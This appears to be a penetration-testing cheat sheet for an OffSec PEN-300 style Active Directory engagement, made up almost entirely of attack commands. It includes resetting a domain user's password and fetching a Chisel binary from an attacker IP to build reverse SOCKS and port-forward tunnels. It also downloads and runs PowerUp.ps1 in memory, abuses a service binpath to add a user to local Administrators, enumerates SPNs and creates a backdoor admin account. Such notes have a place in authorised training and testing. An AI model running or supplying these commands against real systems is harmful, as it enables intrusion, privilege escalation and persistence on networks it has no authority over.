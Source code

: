 Change User Password:

```pwsh
$UserPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
Set-DomainUserPassword -Identity 'nina@final.com' -AccountPassword $UserPassword
```

Chisel

```bash
./chisel server --port 8181 --reverse
```

```pwsh
iwr -uri http://192.168.119.120/chisel.exe -Outfile C:\Users\Public\chisel.exe

C:\Users\Public\chisel.exe client 192.168.119.120:8181 R:socks

chisel.exe client 192.168.45.185:8181 R:3306:127.0.0.1:3306
```

```bash
proxychains -q xfreerdp /cert-ignore /bpp:8 /compression -themes -wallpaper /auto-reconnect /size:1900x880 /d:final.com /u:nina /p:Password1234 /v:172.16.147.183 /drive:PEN-300,/home/kali/OffSec/PEN-300
```

PowerUp

```pwsh
iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/PowerUp.ps1'))

Invoke-AllChecks
```

Modify Service 

```pwsh
sc.exe config SNMPTRAP binpath= "net localgroup Administrators nina /add" obj= "LocalSystem" start= auto
sc.exe qc SNMPTRAP
sc.exe start SNMPTRAP
```

```bash
ssh -N -R 127.0.0.1:8081:172.16.155.194:8081 kali@192.168.45.123
```

Obtain list of SPNs

```pwsh
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

```bash
systemd-resolve --status | grep "DNS Servers"
```

Create new user

```pwsh
net user admin Password1234 /add
net localgroup administrators admin /add
```

